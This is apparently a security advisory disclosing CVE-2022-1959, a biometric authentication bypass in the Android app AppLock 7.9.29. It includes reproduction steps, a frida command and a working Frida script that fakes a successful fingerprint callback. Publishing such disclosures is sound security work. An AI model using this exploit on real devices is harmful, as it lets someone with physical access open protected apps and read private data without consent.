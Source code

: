 ```yaml
---
slug: advisories/walker/
title: AppLock 7.9.29 - Improper Access Control - Fingerprint
authors: Carlos Bello
writer: cbello
codename: walker
product: AppLock 7.9.29
date: 2022-09-26 06:00 COT
cveid: CVE-2022-1959
severity: 5.5
description: AppLock 7.9.29  -  Improper Access Control - Fingerprint
keywords: Fluid Attacks, Security, Vulnerabilities, AppLock, spsoftmobile, spsoft, Fingerprint
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | AppLock 7.9.29 - Improper Access Control - Fingerprint |
| **Code name**         | [Walker](https://en.wikipedia.org/wiki/Alan_Walker)    |
| **Product**           | AppLock (Fingerprint)                                  |
| **Affected versions** | Version 7.9.29                                         |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Improper Access Control - Fingerprint                                                                  |
| **Rule**              | [115. Security controls bypass or absence](https://docs.fluidattacks.com/criteria/vulnerabilities/115) |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:P/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 5.5                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1959](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1959)                          |

## Description

AppLock version 7.9.29 allows an attacker with physical access to
the device to bypass biometric authentication. This is possible
because the application did not correctly implement fingerprint
validations.

## Vulnerability

In android application fingerprint implementations, the
onAuthenticationSucceded method is triggered when the system
successfully authenticates a user. Most biometric authentication
implementations rely on this method being called, without worrying
about the CryptoObject. The application logic responsible for
unlocking the application is usually included in this callback method.
This approach is trivially exploited by connecting to the application
process and calling the AuthenticationSucceded method directly, as a
result, the application can be unlocked without providing valid
biometric data.

Another common case occurs when some developers use CryptoObject but do not
encrypt/decrypt data that is crucial for the application to function properly.
Therefore, we could skip the authentication step altogether and proceed to use
the application. To solve this there is no single answer, however a good approach
is to use a fingerprint protected key store key that will be used to decrypt a
symmetric key. This symmetric key must be used to decrypt the application storage.

I attach the following link so that you can better understand the vulnerability
present in AppLock:

* https://labs.f-secure.com/blog/how-secure-is-your-android-keystore-authentication/

## Steps to reproduce

1. Install and configure AppLock.

2. Activate and configure fingerprint protection in AppLock.

3. Install and configure frida as indicated in the following [link](https://programmerclick.com/article/51481638343/).

4. Start AppLock on your device, if you set everything up correctly, you should now
   see a prompt to put your fingerprint.

5. Run the following command on your laptop.

```bash
frida -U 'AppLock' -l exploit.js --no-pause
```

6. Now on your device press the 'recent' button, commonly represented by a square.
   This button opens the recent apps view so that you can switch from one open app
   to another.

7. Log back into AppLock.

8. Now all you have to do is log in again. This time you will enter the application
   instantly, without having entered a valid fingerprint.

## Exploitation

### exploit.js

```js
// exploit.js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(
    crypto, null, 0
);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const AuthenticationResult = Java.use(
        'android.hardware.fingerprint.FingerprintManager$AuthenticationResult'
    );
    const FingerprintManager  = Java.use(
        'android.hardware.fingerprint.FingerprintManager'
    );
    const CryptoObject = Java.use(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject'
    );

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject',
        'android.os.CancellationSignal',
        'int',
        'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback',
        'android.os.Handler'
    );

    fingerprintManager_authenticate.implementation = (
        crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");

        // We send a null cryptoObject to the listener of the fingerprint
        var crypto = CryptoObject.$new(null);
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

## Evidence of exploitation

![applock-fingerprint-bypass](https://user-images.githubusercontent.com/51862990/192392091-e6ff1169-93d4-4c5b-ba61-59fdbf7841a8.gif)

## Our security police

We have reserved the CVE-2022-1959 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: AppLock (Fingerprint) 7.9.29

* Operating System: Android 8.0 (API 26)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://www.spsoftmobile.com>

## Timeline

<time-lapse
  discovered="2022-09-06"
  contacted="2022-09-07"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
